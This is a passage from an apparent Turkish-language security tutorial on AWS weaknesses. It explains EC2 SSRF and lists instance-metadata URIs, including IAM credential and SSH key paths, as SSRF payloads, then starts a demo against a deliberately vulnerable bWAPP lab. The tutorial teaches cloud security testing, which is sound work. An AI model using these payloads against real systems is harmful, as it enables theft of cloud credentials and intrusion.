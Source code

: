 Tahmin edebileceğiniz üzere bu oldukça kritik bir zafiyettir. Senaryoya göre kullanıcıların Cookie bilgisini çalmak, sistem üzerinde uzaktan komut çalıştırmak ve daha çeşitli pek çok zafiyete sebebiyet verebilir. Keza bu Policy'leri güvensiz şekilde ayarlarken aslında AWS bas bas bağırıyor güvensiz olduğunu.

> Bu noktada şunu belirtmeden devam etmeyelim. AWS üzerindeki zafiyetleri ararken yalnızca ilgili alan adı üzerinden denememek gerekmekte. Kaynak kodu okumak, alt alan adlarını araştırmak oldukça faydalı olacaktır. Bir örnek olarak hedef sistemimiz belkide yalnızca CDN olarak AWS hizmetlerini kullanıyor oluyor.

## EC2 SSRF
SSRF ve EC2 ikilisini aynı cümlede görüyorsanız oldukça kritik biz zafiyet ile karşı karşıyasınız anlamına gelmektedir. Zafiyetin detaylarına girmeden önce EC2 Metadata kavramından bahsedelim.

Metadata, çalışmakta olan bir EC2 Instance'ı hakkında çeşitli bilgiler vermektedir. **169.254.169.254** adresinde çalışmakta olan bir REST API ile iletişime geçerek aslında tarafımıza çeşitli bilgileri sunmaktadır. Tarafımıza sunulan bilgilerde oldukça kritik olabilecek bilgilerde yer almaktadır.

EC2 Metadata Instance'ında işimize yarayabilecek bazı URI'lar şunlardır:
- http://instance-data
- http://169.254.169.254
- http://169.254.169.254/latest/user-data
- http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
- http://169.254.169.254/latest/meta-data/
- http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
- http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
- http://169.254.169.254/latest/meta-data/ami-id
- http://169.254.169.254/latest/meta-data/reservation-id
- http://169.254.169.254/latest/meta-data/hostname
- http://169.254.169.254/latest/meta-data/public-keys/
- http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
- http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
- http://169.254.169.254/latest/meta-data/iam/security-credentials/
- http://169.254.169.254/latest/dynamic/instance-identity/document
- http://169.254.169.254/latest/meta-data/iam/security-credentials/runCommand

Zafiyet SSRF'in var oluşu ile gerçekleşiyor. Aslında bildiğimiz, aşina olduğumuz SSRF. Fakat biz burada ilgili EC2 Instance'ının metadata verilerini okuyoruz. EC2 üzerinde oluşturduğum zafiyetli web uygulaması üzerinden bir demo ile konuyu netleştirelim. Bunun için bir EC2 ayaklandırıp üzerine içerisinde SSRF zafiyetini de barındıran BWAPP uygulamasını yükledim. (Ref: <a href="https://ab-lumos.medium.com/ssrf-attack-on-aws-technical-demo-for-stealing-ec2-metadata-4910dafafdee" target="_blank">Anunay Bhatt</a>)

SSRF olduğunu bildiğimiz alana (URI'daki language parametresi) http://169.254.169.254/latest/meta-data/ değerini girdiğimizde karşımıza çıkan çıktı aşağıdaki ekran görüntüsünde gösterilmiştir.